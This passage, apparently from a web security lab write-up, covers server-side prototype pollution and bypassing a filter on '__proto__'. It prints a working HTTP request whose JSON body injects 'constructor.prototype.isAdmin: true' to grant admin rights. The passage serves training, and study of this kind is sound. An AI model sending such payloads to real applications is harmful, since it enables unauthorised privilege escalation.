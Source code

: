 ![img](media/1614664e93721bca5130bd53f9d24cce.png)

We can change most values but not “isAdmin”. From the notes, "an attacker can
access the prototype via the constructor property instead of \__proto__"

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /my-account/change-address HTTP/2
...

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UKKKKKK","sessionId":"PDKi3aQnLAV0M8OWcB6qLExhgub4zcGW","constructor":{"prototype":{"isAdmin":true}}}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
